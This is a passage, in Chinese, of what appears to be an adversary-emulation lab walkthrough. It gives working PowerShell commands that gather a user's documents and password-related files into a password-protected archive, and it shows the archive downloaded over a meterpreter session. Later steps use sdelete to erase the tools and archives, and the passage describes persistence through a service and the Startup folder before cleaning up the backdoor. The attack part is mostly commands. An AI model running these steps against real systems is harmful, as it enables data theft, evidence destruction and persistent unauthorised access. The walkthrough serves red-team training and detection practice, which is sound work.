 #### 9.B 收集並壓縮文件
運行 PowerShell 命令來收集感興趣的文件並壓縮為單個文件。
跟前面Step 2差不多


```powershell=
PS C:\Windows\system32> $env:APPDATA;$files=Get-ChildItem -Path $env:USERPROFILE\ -Include *.doc,*.xps,*.xls,*.ppt,*.pps,*.wps,*.wpd,*.ods,*.odt,*.lwp,*.jtd,*.pdf,*.zip,*.rar,*.docx,*.url,*.xlsx,*.pptx,*.ppsx,*.pst,*.ost,*psw*,*pass*,*login*,*jack*,*sifr*,*sifer*,*vpn,*.jpg,*.txt,*.lnk -Recurse -ErrorAction SilentlyContinue | Select-Object -ExpandProperty FullName; Compress-Archive -LiteralPath $files -CompressionLevel Optimal -DestinationPath $env:APPDATA\working.zip -Force
PS C:\Program Files\SysinternalsSuite> cd C:\Windows\Temp
PS C:\Program Files\SysinternalsSuite> .\Rar.exe a -hpfGzq5yKw "$env:USERPROFILE\Desktop\working.zip" "$env:APPDATA\working.zip"
PS C:\Program Files\SysinternalsSuite> exit
[meterpreter] > download "C:\\Users\\jack\\Desktop\\working.zip" .

```

#### 9.C 刪除痕跡
使用 sdelete 刪除上傳的工具及生成的壓縮文件，以清除痕跡。
前面步驟也有
```powershell=
[meterpreter] > shell
[meterpreter (Shell)] > cd "C:\Windows\Temp"
[meterpreter (Shell)] > .\sdelete64.exe /accepteula "C:\Windows\Temp\Rar.exe"
[meterpreter (Shell)] > .\sdelete64.exe /accepteula "C:\Users\jack\AppData\Roaming\working.zip"
[meterpreter (Shell)] > .\sdelete64.exe /accepteula "C:\Users\jack\Desktop\working.zip"
[meterpreter (Shell)] > del "C:\Windows\Temp\sdelete64.exe"

```

### Step 10 - 持久性執行
初始受害者重新啟動，使用合法用戶登錄，此活動將觸發先前建立的持久性機制，即執行新服務（T1035）和Windows啟動資料夾（T1060）中的有效負載。 啟動資料夾中的有效負載使用被盜的令牌執行後續的有效負載（T1106，T1134）。


#### 10.A
重啟初始受害者; 等待系統啟動。 收到具有SYSTEM許可權的meterpreter會話

![image](https://hackmd.io/_uploads/SkbI13L80.png)

#### 10.B

通過登錄初始受害者打開我的電腦，按兩下C盤，觸發啟動資料夾的持久性

![image](https://hackmd.io/_uploads/ryotJnLUA.png)

#### 清理後門
```shell=
Cmd >sc delete “javamtsup”

Powershell > Remove-Item -Force -Path "HKLM:\SOFTWARE\Javasoft"

Powershell > Remove-Item "C:\Windows\System32\hostui.exe"

Powershell > Remove-Item "C:\Windows\System32\hostui.bat"

Powershell > Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\hostui.lnk"
```
